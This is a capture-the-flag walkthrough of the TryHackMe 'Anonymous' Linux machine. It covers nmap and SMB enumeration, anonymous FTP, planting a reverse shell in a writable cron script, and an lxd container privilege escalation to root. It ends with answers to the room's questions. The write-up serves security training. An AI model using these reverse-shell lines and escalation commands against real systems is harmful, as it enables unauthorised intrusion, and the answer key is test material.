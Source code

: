 # TryHackMe - Anonymous - Linux

## Nmap

```
┌──(root💀kali)-[~/Documents/tryhackme/anonymous]
└─# nmap -T4 -sC -sV -O -p- 10.10.55.112                                                                                                                                                                                               130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 17:28 EDT
Stats: 0:04:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.59% done; ETC: 17:41 (0:07:53 remaining)
Stats: 0:08:17 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.55% done; ETC: 17:43 (0:06:38 remaining)
Nmap scan report for 10.10.55.112
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.22.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/30%OT=21%CT=1%CU=34181%PV=Y%DS=4%DC=I%G=Y%TM=62BE199
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-06-30T21:45:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-06-30T21:45:44+00:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1039.43 seconds
```

## SMB

```
┌──(root💀kali)-[~]
└─# smbclient -L \\10.10.55.112
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

## FTP

- According to our nmap We are allowed to login as anonymous. It does work  
![image](https://user-images.githubusercontent.com/96747355/176789590-00febf49-a0d5-45f4-80c5-79ca143bd02f.png)  
- Here are the files we can download in our machine for further examination  
![image](https://user-images.githubusercontent.com/96747355/176789837-68e01438-4c77-4b90-bf71-b22e6bfb1232.png)  
- Here is the content of the files  
![image](https://user-images.githubusercontent.com/96747355/176790036-bf157c8f-6b52-4e8b-97ae-d518d19a708a.png)  
- It seems like we are allowed to write in the clean.sh file. Also if we check multiple times the scripts folder we can see that the log file is regurlarly updated. It is worth modifyin the script and try to get a reverse shell with it.  
![image](https://user-images.githubusercontent.com/96747355/176791076-258219c8-e3fa-48d4-90c4-677bf7912a2f.png)
- In the picture above we can see that the second ls shows that the log file is bigger and the time is later
- Let's try to modify the clean script with this 
```
#!/bin/bash

netcat 10.13.22.56 4444 -e /bin/bash
```
- We set our listener `rlwrap nc -lvnp 4444`
- We transfer the new file  
![image](https://user-images.githubusercontent.com/96747355/176791697-6d3b82f9-82fd-4720-bbcf-2996cfa89627.png)
- So nothing happens with this. If we check the hint it mentions unexpected results with netcat.
- Let's try with bash instead of netcat `bash -i >& /dev/tcp/10.13.22.56/4444 0>&1`  
- We get a shell as the user `namelessone` after a minute or so    
![image](https://user-images.githubusercontent.com/96747355/176949498-db6076e6-9025-4dd3-87f8-86998e37237c.png)  
- We can grab the user flag

## Privilege escalation

- Let's get linpeas in our target `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
- `python3 -m http.server 80`
- From our target `wget http://10.13.22.56/linpeas.sh` and `chmod +x linpeas.sh`
- We are part of interesting groups such as lxd sudo and adm. However sudo -l does not give anything back. Let's try to abuse lxd and follow [this article](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) 
- To summarize here are the commands I ran (using the blog post as reference)

```
# From my kali
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
# Setup HTTP server to host the image
python3 -m http.server 80
# From the target
wget http://10.13.22.56/alpine-v3.16-x86_64-20220701_1459.tar.gz
mv alpine-v3.16-x86_64-20220701_1459.tar.gz alpine.tar.gz
lxc image import ./alpine.tar.gz --alias myimage
lxd init 
# we push enter to all the prompts to keep default setup
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
- It works, we are root  
![image](https://user-images.githubusercontent.com/96747355/176962259-df97417d-b029-4cba-8fc8-23d738145dc2.png)  
- We can grab the last flag. We need to access to the point where the system is mounted `cd /mnt/root` and we grab the flag `cat root/root.txt`!  

## Questions

1. Enumerate the machine.  How many ports are open? `4`
2. What service is running on port 21? `ftp`
3. What service is running on ports 139 and 445? `smb`
4. There's a share on the user's computer.  What's it called? `pics`
- I let you find the flags :) 

